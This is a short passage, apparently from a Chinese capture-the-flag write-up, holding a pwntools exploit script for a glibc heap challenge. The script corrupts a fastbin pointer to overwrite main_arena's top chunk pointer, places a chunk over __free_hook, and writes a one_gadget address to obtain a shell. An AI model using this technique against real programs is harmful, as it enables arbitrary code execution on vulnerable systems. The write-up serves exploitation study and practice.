 ```python
#gdb.attach(p)

# get a chunk whose size is 0x60
add(0x40) # 6
dele(6)

# overwrite the fd pointer
# free it, and alloc twice
# we get a chunk beyond the top chunk's pointer in main_arena
payload=p64(0)*6
payload+=p64(0x61)
payload+=p64(libc_base+top_addr)

edit(3,payload)

add(0x40)
add(0x40,p64(libc_base+0x3c5c50)) # now you have overwriten the top chunk pointer!

# in order to avoid the malloc-corruption
# we fix the broken large bin's bk_nextsize
edit(11,p64(chunk_base+0x480))

# clean servel positions
# to put in the new chunks
dele(8)
dele(4)
dele(5)
dele(1)

add(0x300)
add(0x300)
add(0x300)
add(0x300)
add(0x300)
add(0x300) # __free_hook is overlapped here!

# offset of the __free_hook
# edit it, and pwned!
offset=0x7f593a6087a8-0x7f593a6085d8
edit(15,'\x00'*offset+p64(libc_base+one_gadget))
dele(15)

p.interactive()

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>学完了，简单吧 :)</font></br>